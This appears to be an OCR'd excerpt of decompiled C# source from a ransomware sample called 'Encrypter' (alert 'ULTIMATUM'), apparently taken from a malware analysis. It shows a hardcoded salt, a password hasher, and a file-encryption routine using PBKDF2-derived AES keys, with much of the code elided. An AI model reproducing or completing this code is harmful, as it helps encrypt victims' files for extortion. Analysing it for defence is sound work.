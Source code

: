 ```csharp
		alertName = "ULTIMATUM";
		salt = "0f5264038205edfb1ac05fbb0e8c5e94";
		softwareName = "Encrypter";
		coreEncrypter = null;
		UID = null;
	}
}

internal class PasswordHasher
{
	[...]
	public string Hasher(string password)
	{
		using SHA512CryptoServiceProvider sHA512CryptoServiceProvider = new SHA512CryptoServiceProvider();
		byte[] bytes = Encoding.UTF8.GetBytes(password);
		return Convert.ToBase64String(sHA512CryptoServiceProvider.ComputeHash(bytes));
    }
    [...]
}

public class CoreEncrypter
{
    [...]
	public void EncryptFile(string file)
	{
		byte[] array = new byte[65535];
		byte[] salt = new byte[8] { 0, 1, 1, 0, 1, 1, 0, 0 };
		Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(password, salt, 4953);
		RijndaelManaged rijndaelManaged = new RijndaelManaged();
		rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
		rijndaelManaged.Mode = CipherMode.CBC;
		rijndaelManaged.Padding = PaddingMode.ISO10126;
		rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
		FileStream fileStream = null;
        [...]
    }
    [...]
}
```
